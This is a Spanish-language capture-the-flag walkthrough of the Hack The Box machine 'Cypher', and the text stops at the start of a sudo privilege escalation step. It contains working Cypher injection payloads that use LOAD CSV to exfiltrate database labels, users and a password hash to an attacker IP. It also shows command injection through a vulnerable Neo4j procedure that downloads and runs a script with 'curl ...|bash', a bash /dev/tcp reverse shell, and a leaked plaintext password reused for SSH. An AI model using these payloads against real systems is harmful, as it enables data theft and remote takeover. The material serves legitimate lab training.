

# copy-of-copy-of-Cypher

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con `nmap` para ver los puertos que están expuestos en la máquina **`Cypher`**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.57 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-04 15:52 CET
Initiating SYN Stealth Scan at 15:52
Scanning 10.10.11.57 [65535 ports]
Discovered open port 80/tcp on 10.10.11.57
Discovered open port 22/tcp on 10.10.11.57
Completed SYN Stealth Scan at 15:52, 22.14s elapsed (65535 total ports)
Nmap scan report for 10.10.11.57
Host is up, received user-set (0.085s latency).
Scanned at 2025-03-04 15:52:02 CET for 22s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 22.26 seconds
           Raw packets sent: 66391 (2.921MB) | Rcvd: 66402 (2.657MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.57
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abierta una página web de `Nginx` y el servicio`SSH`.

```bash
❯ nmap -sCV -p22,80 10.10.11.57 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-04 15:54 CET
Nmap scan report for 10.10.11.57
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cypher.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   197.41 ms 10.10.16.1
2   91.40 ms  10.10.11.57

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.04 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

## Web Enumeration

Realizaremos a través de la herramienta de `whatweb` un reconocimiento inicial de las tecnologías que utiliza la aplicación web.

```bash
❯ whatweb -a 3 http://cypher.htb
http://cypher.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.129.111.76], JQuery[3.6.1], Script, Title[GRAPH ASM], nginx[1.24.0]
```

Al acceder a [http://cypher.htb](http://cypher.htb), nos encontramos con la siguiente página web en la cual dispone de 3 páginas web las cuales son las siguientes.

En la página principal, al darle al botón de `Try our free demo` nos redirigre automáticamente a la página de iniciar sesión.



<figure><figcaption></figcaption></figure>



<figure><figcaption></figcaption></figure>



<figure><figcaption></figcaption></figure>



Al intentar acceder con credenciales predeterminadas como `admin/admin`, se nos muestra mensaje indicando que el acceso es denegado.

<figure><figcaption></figcaption></figure>

Realizaremos una enumeración de directorios y páginas web en la aplicación web a través de la herramienta de `feroxbuster`. En el resultado obtenido, nos encontramos diferentes directorios y páginas los cuales los que nos llaman más la atención son los siguientes.

* /api
* /api/auth
* /testing

```bash
❯ feroxbuster -u http://cypher.htb -t 200 -C 500,502,404
                                                                                                                                                                                                                                      
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://cypher.htb
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [500, 502, 404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        7l       12w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      179l      477w     4986c http://cypher.htb/about
307      GET        0l        0w        0c http://cypher.htb/api => http://cypher.htb/api/docs
200      GET       63l      139w     1548c http://cypher.htb/utils.js
200      GET      126l      274w     3671c http://cypher.htb/login
200      GET      162l      360w     4562c http://cypher.htb/index
405      GET        1l        3w       31c http://cypher.htb/api/auth
307      GET        0l        0w        0c http://cypher.htb/api/ => http://cypher.htb/api/api
301      GET        7l       12w      178c http://cypher.htb/testing => http://cypher.htb/testing/
307      GET        0l        0w        0c http://cypher.htb/demo => http://cypher.htb/login
200      GET        7l     1223w    80496c http://cypher.htb/bootstrap.bundle.min.js
200      GET        2l     1293w    89664c http://cypher.htb/jquery-3.6.1.min.js
200      GET       17l      139w     9977c http://cypher.htb/testing/custom-apoc-extension-1.0-SNAPSHOT.jar
200      GET        3l      113w     8123c http://cypher.htb/bootstrap-notify.min.js
200      GET     7333l    24018w   208204c http://cypher.htb/vivagraph.min.js
200      GET      876l     4886w   373109c http://cypher.htb/logo.png
200      GET       12l     2173w   195855c http://cypher.htb/bootstrap.min.css
200      GET      162l      360w     4562c http://cypher.htb/
200      GET     5632l    33572w  2776750c http://cypher.htb/us.png
[####################] - 17s    30019/30019   0s      found:18      errors:0      
[####################] - 16s    30000/30000   1878/s  http://cypher.htb/ 
[####################] - 1s     30000/30000   57915/s http://cypher.htb/testing/ => Directory listing (add --scan-dir-listings to scan)  
```

Realizamos una enumeración pero esta vez con la herramienta de `gobuster` entre la cual nos muestra el mismo resultado obtenido.

```bash
❯ gobuster dir -u http://cypher.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -b 503,404
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cypher.htb/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   503,404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/about                (Status: 200) [Size: 4986]
/login                (Status: 200) [Size: 3671]
/demo                 (Status: 307) [Size: 0] [--> /login]
/api                  (Status: 307) [Size: 0] [--> /api/docs]
/testing              (Status: 301) [Size: 178] [--> http://cypher.htb/testing/]
Progress: 220546 / 220547 (100.00%)
===============================================================
Finished
===============================================================
```

Al comprobar el contenido de la página web [http://cypher.htb/testing/](http://cypher.htb/testing/), nos encontramos que en el directorio disponemos de un archivo con extensión `.JAR`.

```bash
❯ curl -s 'http://cypher.htb/testing/' | html2text
****** Index of /testing/ ******
===============================================================================
../
custom-apoc-extension-1.0-SNAPSHOT.jar             17-Feb-2025 11:49
6556
===============================================================================
```

## Initial Foothold

### Analyzing a JAR File (JADX-GUI)

A través de la herramienta de `wget` nos descargaremos el archivo `JAR` que hemos localizado en la página web anteriormente indicada.

```bash
❯ wget http://cypher.htb/testing/custom-apoc-extension-1.0-SNAPSHOT.jar
--2025-03-04 16:14:10--  http://cypher.htb/testing/custom-apoc-extension-1.0-SNAPSHOT.jar
Resolviendo cypher.htb (cypher.htb)... 10.129.111.76
Conectando con cypher.htb (cypher.htb)[10.129.111.76]:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 6556 (6,4K) [application/java-archive]
Grabando a: «custom-apoc-extension-1.0-SNAPSHOT.jar»

custom-apoc-extension-1.0-SNAPSHOT.jar                    100%[===================================================================================================================================>]   6,40K  --.-KB/s    en 0,05s   

2025-03-04 16:14:11 (126 KB/s) - «custom-apoc-extension-1.0-SNAPSHOT.jar» guardado [6556/6556]
```

Abriremos este archivo `JAR` en la herramienta de `JADX-GUI` para analizarlo en profundidad y comprobar si hay credenciales, configuraciones de la aplicación, etc.

Este JAR define una clase `CustomFunctions` con un procedimiento de Neo4j llamado `custom.getUrlStatusCode`. Lo que hace es recibir una URL, realizar una solicitud HTTP usando `curl` para obtener el código de estado HTTP de la URL, y luego devolver ese código de estado como un resultado. Si la URL no comienza con "http://" o "https://", automáticamente agrega "https://".

Además, la clase maneja la ejecución del comando y captura cualquier error que se produzca durante la ejecución, además de controlar el tiempo de espera de la operación.

<figure><figcaption></figcaption></figure>

En resumen, este JAR proporciona una función personalizada en Neo4j que consulta el código de estado HTTP de una URL a través de la ejecución de un comando del sistema operativo (`curl`), lo que podría ser explotado si se permite inyección de comandos.

Este JAR tiene una posible vulnerabilidad de inyección de comandos, ya que toma una URL proporcionada por el usuario y la pasa directamente a un comando del sistema operativo.


```java
@Procedure(name = "custom.getUrlStatusCode", mode = Mode.READ)
    @Description("Returns the HTTP status code for the given URL as a string")
    public Stream<StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {
        if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://")) {
            url = "https://" + url;
        }
        String[] command = {"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url};
        System.out.println("Command: " + Arrays.toString(command));
        Process process = Runtime.getRuntime().exec(command);
```


### Cypher Injection on Login Panel

Accederemos a http://cypher.htb e intentaremos acceder con las credenciales de `admin/admin`. Al interceptar la solicitud desde `BurpSuite`, comprobamos que se tramita por una solicitud por `POST` a `/api/auth` el inicio de sesión a la aplicación web.

En este caso, en la respuesta por parte del servidor se nos muestra un mensaje de `Invalid credentials`.

<figure><figcaption></figcaption></figure>

Al intentar ingresar un apóstrofe (`'`) en el campo de `username`, observamos que el servidor devuelve diferentes mensajes de error de sintaxis. En estos errores, podemos identificar que se está ejecutando `Cypher` y que la aplicación web valida el inicio de sesión mediante una consulta `Cypher`.

```python
  File "/app/app.py", line 142, in verify_creds
    results = run_cypher(cypher)
  File "/app/app.py", line 63, in run_cypher
```

```cypher
MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'admin'' return h.value as hash
```


`Cypher` es un lenguaje de consultas utilizado en bases de datos gráficas, especialmente en `Neo4j`. Está diseñado para trabajar con nodos y relaciones en un grafo, permitiendo a los usuarios realizar operaciones como buscar, insertar, actualizar y eliminar datos dentro de una base de datos gráfica. Cypher utiliza una sintaxis declarativa, lo que facilita la escritura de consultas complejas de manera legible y comprensible.


<figure><figcaption></figcaption></figure>

Dado que hemos comprobado que por detrás de la aplicación web se está utilizando `Cypher`, decidimos buscar como intentar explotar este lenguaje de consultas. Nos encontramos con los siguientes blogs los cuales nos explican diferentes PoC, inyecciones y definiciones sobre `Cypher Injection`.











Para recibir la información, deberemos de levantar un servidor web con Python, por ejemplo.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Realizaremos la siguiente inyección `Cypher` en la cual deberíamos de verificar la versión del servicio correspondiente. Por algún extraño suceso, no logramos que la información se nos envíe a nuestro servidor web, pero en la respuesta por parte del servidor, si se nos muestra la versión exacta del `Cypher`.

```cypher
' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.16.37/?version='+version+'&name='+name+'&edition='+edition as l RETURN 0 as _0 //"
```

<figure><figcaption></figcaption></figure>

Montaremos un servidor web para poder recibir la información correspondiente al `Cypher Injection`.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Durante la prueba de inyección de `Cypher`, utilizamos la siguiente consulta para obtener todos los `labels` de los nodos de la base de datos `Neo4j`:

Esta consulta realiza varias operaciones:

1. `CALL db.labels()`: Obtiene todos los labels de los nodos en la base de datos.
2. `UNION`: Combina el resultado anterior con la parte siguiente de la consulta.
3. `LOAD CSV FROM 'http://10.10.16.37/?l='+label as l`: Envía la información de los labels a un servidor remoto (en este caso, a `http://10.10.16.37/`), lo que facilita la exfiltración de datos.
4. `RETURN 0 as _0`: Retorna un valor constante (0) al final de la consulta.

Este tipo de inyección permite obtener los labels de los nodos y, al mismo tiempo, filtrar la información hacia un servidor externo, lo que podría comprometer la seguridad de la base de datos al permitir la fuga de información sensible.

```cypher
' RETURN 0 as _0 UNION CALL db.labels() yield label LOAD CSV FROM 'http://10.10.16.37/?l='+label as l RETURN 0 as _0 //
```

<figure><figcaption></figcaption></figure>

Al explotar la vulnerabilidad de inyección de Cypher, logramos obtener una lista de los **labels** presentes en la base de datos Neo4j de la siguiente manera.

La consulta permitió obtener los siguientes labels: `USER`, `HASH`, `DNS_NAME`, `SHA1`, `SCAN`, `ORG_STUB`, y `IP_ADDRESS`. Estos labels fueron enviados a un servidor web externo a través de solicitudes GET, lo que facilitó la exfiltración de información crítica sobre la estructura de los nodos en la base de datos.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.111.76 - - [04/Mar/2025 17:00:51] "GET /?l=USER HTTP/1.1" 200 -
10.129.111.76 - - [04/Mar/2025 17:00:51] "GET /?l=HASH HTTP/1.1" 200 -
10.129.111.76 - - [04/Mar/2025 17:00:52] "GET /?l=DNS_NAME HTTP/1.1" 200 -
10.129.111.76 - - [04/Mar/2025 17:00:52] "GET /?l=SHA1 HTTP/1.1" 200 -
10.129.111.76 - - [04/Mar/2025 17:00:53] "GET /?l=SCAN HTTP/1.1" 200 -
10.129.111.76 - - [04/Mar/2025 17:00:53] "GET /?l=ORG_STUB HTTP/1.1" 200 -
10.129.111.76 - - [04/Mar/2025 17:00:54] "GET /?l=IP_ADDRESS HTTP/1.1" 200 -
```

A través de la inyección de Cypher, se logró exfiltrar las propiedades de los nodos de tipo `USER` de la base de datos Neo4j utilizando la siguiente consulta:

Esta consulta realiza las siguientes acciones:

1. `MATCH (f:USER)`: Busca los nodos con el label `USER`.
2. `UNWIND keys(f) as p`: Obtiene todas las claves (propiedades) de los nodos `USER`.
3. `LOA`D CSV FROM: Exfiltra los valores de las propiedades a un servidor externo mediante el protocolo HTTP.
4. `http://10.10.16.37/?p=value`: Cada propiedad y su valor son enviados como parámetros de una solicitud HTTP GET.

```cypher
' OR 1=1 WITH 1 as a MATCH (f:USER) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.16.37/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //"
```

<figure><figcaption></figcaption></figure>

En el servidor web que disponemos montado, comprobamos que al tramitar la solicitud anterior, comprobamos que nos aparece como usuario el nombre de `graphasm`.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.111.76 - - [04/Mar/2025 17:08:47] "GET /?name=graphasm HTTP/1.1" 200 -
```

La inyección Cypher que realizamos tiene como objetivo obtener información de la base de datos de Neo4j, específicamente de los nodos de tipo `SHA1`. Manipulando la consulta, conseguimos acceder a las claves de estos nodos y extraer sus valores, como los hashes, enviándolos a un servidor externo a través de un archivo CSV. Esto permite obtener datos sensibles que podrían usarse para realizar ataques posteriores, como el cracking de contraseñas.

```cypher
' OR 1=1 WITH 1 as a MATCH (f:SHA1) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.16.37/?' + p +'='+toString(coalesce(f[p], 'NULL')) as l RETURN 0 as _0 //
```

<figure><figcaption></figcaption></figure>

En nuestro servidor web, hemos recibido un valor SHA1, específicamente el hash `9f54ca4c130be6d529a56dee59dc2b2090e43acf`. Este hash parece estar relacionado con el usuario `graphasm`, que habíamos encontrado anteriormente en la base de datos de Neo4j.

Esto confirma que la inyección Cypher nos ha permitido extraer con éxito información sensible sobre los usuarios y sus datos asociados.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.111.76 - - [04/Mar/2025 17:22:55] "GET /?value=9f54ca4c130be6d529a56dee59dc2b2090e43acf HTTP/1.1" 200 -
```

### Cracking Hashes (FAILED)

Nos guardaremos el hash obtenido en un archivo llamado `hashes`, al utilizar la herramienta de `hashid` para verificar qué tipo de hash es, nos encontramos que al parecer se trata de cifrado `SHA1`.

Al intentar crackear el hash con herramientas de cracking como `hashcat`, nos encontramos que el resultado ha sido `Exhausted`, indicando que no se ha logrado crackear el hash a través del diccionario `rockyou.txt`.

```bash
❯ echo '9f54ca4c130be6d529a56dee59dc2b2090e43acf' > hashes
❯ hashid '9f54ca4c130be6d529a56dee59dc2b2090e43acf'
Analyzing '9f54ca4c130be6d529a56dee59dc2b2090e43acf'
[+] SHA-1 
[+] Double SHA-1 
[+] RIPEMD-160 
[+] Haval-160 
[+] Tiger-160 
[+] HAS-160 
[+] LinkedIn 
[+] Skein-256(160) 
[+] Skein-512(160) 
❯ hashcat -a 0 -m 100 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5890 MB (1024 MB allocatable), 8MCU

...[snip]...     

Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 100 (SHA1)
Hash.Target......: 9f54ca4c130be6d529a56dee59dc2b2090e43acf
Time.Started.....: Tue Mar  4 17:43:39 2025 (5 secs)
Time.Estimated...: Tue Mar  4 17:43:44 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2614.9 kH/s (0.37ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 14344389/14344389 (100.00%)
Rejected.........: 0/14344389 (0.00%)
Restore.Point....: 14344389/14344389 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[206c6f73657239] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Util: 40%

Started: Tue Mar  4 17:43:37 2025
Stopped: Tue Mar  4 17:43:46 2025
```

### Cypher Injection in Neo4j via a Vulnerable Java Procedure - Command Injection

Al revisar el archivo JAR encontrado en [**http://cypher.htb/testing/**](http://cypher.htb/testing/), descubrimos una posible vulnerabilidad de `Command Injection` en el procedimiento llamado `custom.getUrlStatusCode`, que se utiliza para obtener el código de estado HTTP de una URL proporcionada. Este procedimiento ejecuta un comando en el sistema operativo subyacente sin una adecuada validación o escape de la entrada del usuario. Dado que este JAR está relacionado con Neo4j y Cypher, y hemos identificado previamente una vulnerabilidad de `Cypher Injection`, podríamos intentar llamar a este procedimiento vulnerable directamente desde nuestra inyección Cypher, lo que abriría la posibilidad de ejecutar comandos maliciosos a través de Neo4j.

En este código, el parámetro `url` se usa directamente para formar un comando de shell que invoca `curl` para obtener el código de estado HTTP de la URL proporcionada. Sin embargo, no se realiza ninguna validación o saneamiento adecuado de la entrada del usuario, lo que permite la posibilidad de inyectar comandos maliciosos a través del parámetro `url`.

Dado que el JAR está relacionado con Neo4j, una base de datos que utiliza Cypher para ejecutar consultas, podemos intentar aprovechar la vulnerabilidad de _Cypher Injection_ que ya hemos identificado en el sistema. Si logramos inyectar un payload en una consulta Cypher que invoque este procedimiento Java vulnerable, podríamos ejecutar comandos del sistema a través de Neo4j.

Por ejemplo, al inyectar una URL maliciosa en el procedimiento `custom.getUrlStatusCode`, como `http://example.com; ls`, el comando ejecutado sería:

```bash
curl -s -o /dev/null --connect-timeout 1 -w %{http_code} http://example.com; ls
```

El uso del carácter `;` permitiría que se ejecuten comandos adicionales en el sistema operativo, como `ls` (listar directorios), lo que daría lugar a la ejecución no autorizada de comandos en el sistema.

```java
@Procedure(name = "custom.getUrlStatusCode", mode = Mode.READ)
    @Description("Returns the HTTP status code for the given URL as a string")
    public Stream<StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {
        if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://")) {
            url = "https://" + url;
        }
        String[] command = {"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url};
        System.out.println("Command: " + Arrays.toString(command));
        Process process = Runtime.getRuntime().exec(command);
```

Para comprobar la existencia de la vulnerabilidad de `Command Injection`, levantaremos un servidor web en nuestro equipo atacante. Lo que haremos será intentar recibir una petición GET de un recurso inexistente. Si el servidor víctima realiza la solicitud a través de cURL y la recibimos en nuestro servidor, confirmaremos que se está produciendo una inyección de comandos.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

En esta inyección de Cypher, lo que estamos haciendo es aprovechar una vulnerabilidad de `Command Injection` en el procedimiento `custom.getUrlStatusCode` que vimos anteriormente. Este procedimiento es vulnerable porque permite ejecutar comandos del sistema operativo, específicamente usando `curl` para obtener el código de estado HTTP de una URL. Debido a la falta de saneamiento en la entrada de la URL, podemos inyectar comandos maliciosos.

* `google.com;curl 10.10.16.37/gzzcoo;#`:
  * `google.com`: Es la URL original que pasa como parámetro al procedimiento.
  * `;`: Este es un delimitador de comandos en bash (sistema operativo tipo Unix). Lo que hace es permitir la ejecución de comandos adicionales.
  * `curl 10.10.16.37/gzzcoo`: Después del `;`, se inyecta el comando `curl`, que hace una solicitud HTTP a nuestra máquina atacante (en la IP `10.10.16.37`) y al recurso `/gzzcoo`.
  * `#`: El `#` es un comentario en bash, lo que asegura que cualquier texto después de este símbolo no sea ejecutado como código, evitando que la URL sea modificada en el proceso.
* **Llamada al procedimiento vulnerable**:
  * `CALL custom.getUrlStatusCode(...)`: Llamamos al procedimiento vulnerable `custom.getUrlStatusCode`, pasándole como parámetro la URL modificada que contiene el comando malicioso.
  * `YIELD statusCode AS a`: Este paso recoge el código de estado HTTP devuelto por `curl` para la URL original (en este caso, `google.com`), aunque la ejecución real que nos interesa es la inyección de comando.
* **Resultado final**:
  * `RETURN a;`: Se devuelve el código de estado HTTP obtenido de la URL, pero la clave es que, al ejecutar este código, también se dispara la ejecución del comando `curl` hacia nuestro servidor web. Esto permite que nuestro servidor reciba una solicitud GET a `/gzzcoo`.

```cypher
' return h.value as a UNION CALL custom.getUrlStatusCode(\"google.com;curl 10.10.16.37/gzzcoo;#\") YIELD statusCode AS a RETURN a;//
```

<figure><figcaption></figcaption></figure>

Al realizar la inyección de Cypher, con el comando `curl` apuntando a nuestro servidor, verificamos en los logs de nuestro servidor web que efectivamente se hizo una solicitud `GET` desde el servidor vulnerable hacia el recurso `/gzzcoo` que no existía, lo que confirmamos con el siguiente mensaje:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.111.76 - - [04/Mar/2025 17:52:17] code 404, message File not found
10.129.111.76 - - [04/Mar/2025 17:52:17] "GET /gzzcoo HTTP/1.1" 404 -
```

El siguiente paso, será lograr obtener una Reverse Shell para así disponer de acceso al sistema. Para ello, crearemos un script en `Bash` que realice esta Reverse Shell, el script lo compartiremos a través de un servidor web.

```bash
❯ echo '#!/bin/bash \n/bin/bash -c "bash -i >& /dev/tcp/10.10.16.37/443 0>&1"' > shell.sh

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Por otro lado, nos pondremos en escucha con `nc` para poder recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Desde `BurpSuite` inyectamos el siguiente código para explotar la vulnerabilidad de `Cypher Injection` en combinación con el procedimiento vulnerable. El código que ejecutaremos es `curl 10.10.16.37/shell.sh|bash` con el cual realizará una petición hacía nuestro script y lo ejecutará en una `bash`.

```cypher
' return h.value as a UNION CALL custom.getUrlStatusCode(\"google.com;curl 10.10.16.37/shell.sh|bash;#\") YIELD statusCode AS a RETURN a;//
```

<figure><figcaption></figcaption></figure>

Verificamos que finalmente logramos obtener acceso al sistema como el usuario `neo4j`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.37] from (UNKNOWN) [10.129.111.76] 33758
bash: cannot set terminal process group (1410): Inappropriate ioctl for device
bash: no job control in this shell
neo4j@cypher:/$ 
```

Al recibir la Reverse Shell, la configuraremos para disponer de una TTY interactiva y poder realizar funciones como `Ctrl+C`, `Ctrl+L`, etc.

```bash
neo4j@cypher:/$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
neo4j@cypher:/$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
neo4j@cypher:/$ export TERM=xterm
neo4j@cypher:/$ export SHELL=bash
neo4j@cypher:/$ stty rows 46 columns 230
```

## Initial Access

### Information Leakage

Revisando el directorio de `/home/graphasm` nos encontramos con la flag **user.txt** la cual con el usuario actual no disponemos acceso. Por otro lado, también existe un archivo `YML` que al comprobar su contenido, aparecen unas credenciales en texto plano supuestamente del usuario `neo4j`.

```bash
neo4j@cypher:/home/graphasm$ ls -l
total 8
-rw-r--r-- 1 graphasm graphasm 156 Feb 14 12:35 bbot_preset.yml
-rw-r----- 1 root     graphasm  33 Mar  4 13:55 user.txt
neo4j@cypher:/home/graphasm$ cat user.txt 
cat: user.txt: Permission denied
neo4j@cypher:/home/graphasm$ cat bbot_preset.yml 
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
```

### Trying access on SSH with recently found password

Probamos de autenticarnos con estas credenciales para verificar si se reutilizan para el usuario `graphasm` y finalmente logramos acceder al sistema y visualizar la flag **user.txt**.

```bash
❯ sshpass -p 'cU4btyib.20xtCMCXkBmerhK' ssh graphasm@10.129.111.76
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-53-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Tue Mar  4 04:59:32 PM UTC 2025

  System load:  0.1               Processes:             235
  Usage of /:   68.9% of 8.50GB   Users logged in:       0
  Memory usage: 27%               IPv4 address for eth0: 10.129.111.76
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Mar 4 16:59:33 2025 from 10.10.16.37
graphasm@cypher:~$ cat user.txt 
965debffcc8f3c5f356ebeb9876a2947
```

## Privilege Escalation

### Abusing Sudoers Privilege (bbot)

Revisamos si el usuario `graphasm` dispone de algún permiso de sudoers y nos encontramos que puede ejecutar como `sudo` el binario de `/usr/local/bin/bbot`.


BBot, o BEE·bot, es una herramienta automatizada diseñada para facilitar tareas de **reconocimiento (Recon), pruebas de penetración (Bug Bounties)** y **Análisis de Superficie de Ataque (ASM, Attack Surface Management)**. Está inspirada en **Spiderfoot**, otra herramienta conocida para la recolección automática de información en el contexto de ciberseguridad.

BBot se utiliza principalmente para automatizar la recopilación de información sobre una red, aplicación o infraestructura, ayudando en actividades como:

* **Reconocimiento**: Proceso de recopilación de información pública sobre un objetivo para identificar posibles vectores de ataque.
